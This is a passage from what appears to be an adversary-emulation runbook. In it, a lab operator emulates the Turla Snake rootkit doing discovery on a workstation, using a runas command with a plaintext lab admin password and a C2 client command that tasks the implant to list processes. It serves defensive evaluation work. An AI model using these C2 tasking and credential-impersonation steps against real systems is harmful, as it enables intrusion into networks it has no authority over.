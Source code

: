 * [Report 27: GitHub- hfiref0x/TDL](https://github.com/hfiref0x/TDL)
* [Report 28: CoreLabs- VirtualBox Privilege Escalation](https://www.coresecurity.com/core-labs/advisories/virtualbox-privilege-escalation-vulnerability)
* [Report 29: Unit42- Acidbox](https://unit42.paloaltonetworks.com/acidbox-rare-malware/)

## Step 13 - First Workstation Discovery

:microphone: `Voice Track:`

Step 13 emulates Turla performing discovery on the first workstation to
discover a file server and associated file server admin.

The Snake rootkit receives tasking from the C2 server to enumerate currently
running processes on the local computer and finds that `EgleAdmin` also has
processes running. Further enumeration of the `EgleAdmin` user shows that it is
a member of the `File Server Admins` group. Snake then impersonates `Egle` to
enumerate mapped drives on the local machine and discovers `Egle`'s home drive
is actively mapped to the file server.

---

### ☣️ Procedures

* :arrow_right: Return to your RDP session to `azuolas (10.100.40.103)` as `Egle`.

* Open up a powershell terminal and run the following command:

```pwsh
runas /user:nk\egleadmin powershell
```

* When prompted, type in the password for `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin | Producer1! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\EgleAdmin`:

```pwsh
whoami
```

* :arrow_right: Return to your Kali C2 server.

* From your lower Kali C2 terminal window, task the Snake rootkit to run the following process discovery command:

```bash
# Discover running processes
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that the enumerated processes output contains a process running under `EgleAdmin`
